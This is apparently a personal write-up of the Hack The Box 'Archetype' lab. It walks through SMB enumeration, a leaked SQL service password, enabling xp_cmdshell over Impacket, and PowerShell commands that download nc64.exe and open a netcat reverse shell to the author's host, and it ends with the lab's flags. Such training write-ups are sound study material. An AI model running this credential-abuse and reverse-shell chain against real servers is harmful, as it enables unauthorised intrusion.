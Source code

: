 ```yaml
---
title: "[HTB] Archetype"
author: "Wook Lee"
date: "2024-07-27"
tags: ["Hack The Box"]
---
```


<div style="text-align: center"><img src="./giphy.gif"></div>

This was the first box in `Tier 2` of the Starting Point. However, I am pretty sure these boxes are not starter boxes because this one was super hard and I honestly would have not finished it without the walkthrough. Since I couldn't finish this box myself, there are going to be some missing points here and there throughout this post. I think it's time for me to start working on the easy boxes from here and maybe come back to the tier 2 boxes later after some time. If I can solve one of those in the future, I will be happy to death and feel so much pride in myself. I believe the day will come very soon.

---

#### Which TCP port is hosting a databse server?

```
1433
```

![alt text](image.png#center)

<br>

#### What is the name of the non-Administrative share available over SMB?

```
backups
```

![alt text](image-1.png#center)

<br>

What is the password identified in the file on the SMB share?

```
M3g4c0rp123
```

After I figured there was a non-administrative share called backups, I tried to connect to the share by running the following command:

`smblcient -N \\\\10.129.95.187\\backups`

The `-N` option is short for 'No Password'

![alt text](image-2.png#center)

On the left tmux pane, I was able to connect to the `backups` share of the SMB server and download the only file `prod.dtsConfig` using the `get` command. On the right tmux pane, I opened up the downloaded file and was able to find the password inside.

<br>

#### What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

```
mssqlclient.py
```

![alt text](image-3.png#center)

**_But What is Impacket?_**

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

<br>

We can try to connect to the MSSQL server by using impacket's `mssqlclient.py` script along with the following flags:
`python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth`

`-windows-auth`: this flag is specified to use Windows Authentication

Successfully authenticated to the Microsoft SQL Server

```shell
┌──(kali㉿kali)-[~/Desktop/impacket/examples]
└─$ python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth
Impacket v0.12.0.dev1+20240725.125704.9f36a10e - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)>
```

<br>

#### What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

```
xp_cmdshell
```

![alt text](image-4.png#center)

<br>

#### What script can be used in order to search possible paths to escalate privileges on Windows hosts?

```
winPEAS
```

The cheatsheet from pentestmonkey is really helpful that I found how to set up the command execution through the `xp_cmdshell`.
![alt text](image-5.png#center)

```shell
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC xp_cmdshell 'net user';
ERROR: Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the secur
ity configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp
_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC sp_configure 'show advanced options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE
SQL (ARCHETYPE\sql_svc  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (ARCHETYPE\sql_svc  dbo@master)> RECONFIGURE
SQL (ARCHETYPE\sql_svc  dbo@master)> sp_configure;
```

Now I managed to get a command execution. Let's get a stable reverse shell. We will upload the `nc64.exe` binary to the target machine and execute an interactive `cmd.exe` process on our listening port.

```shell
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell "whoami"
output
-----------------
archetype\sql_svc

NULL
```

Let's download the binary and navigate to the oflder and then start the simple HTTP sever, then the netcat listener in a different tab.

`python3 -m http.server 80`
`nc -lvnp 443`

<br>

As a user `archetype\sql_svc`, we don't have enough privileges to upload files in a system directory and only user `Administrator` can perform actions with higher privileges. We need to change the current working directory somewhere in the home directory of our user where it will be possible to write.

`SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.14/nc64.exe -outfile nc64.exe`

![alt text](image-6.png#center)

it was confirmed that the target machine indeed performed the request. Let's bind the `cmd.exe` through the `nc` to our listener.

`SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.14 443"`

![alt text](image-7.png#center)

on the right tmux pane, I was able to capture the reverse shell through the netcat.

<br>

#### What file contains the administrator's password?

```
ConsoleHost_history.txt
```

```shell
 Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,716,418,048 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
C:\Users\sql_svc\Desktop>
```

On the target machine, I used powershell to download the program from my system.
![alt text](image-8.png#center)

![alt text](image-9.png#center)

<br>

#### Submit user flag

```
3e7b102e78218e935bf3f4951fec21a3
```

![alt text](image-10.png#center)

<br>

#### Submit root flag

```
b91ccec3305e98240082d4474b848528
```

<br>

![alt text](image-11.png#center)
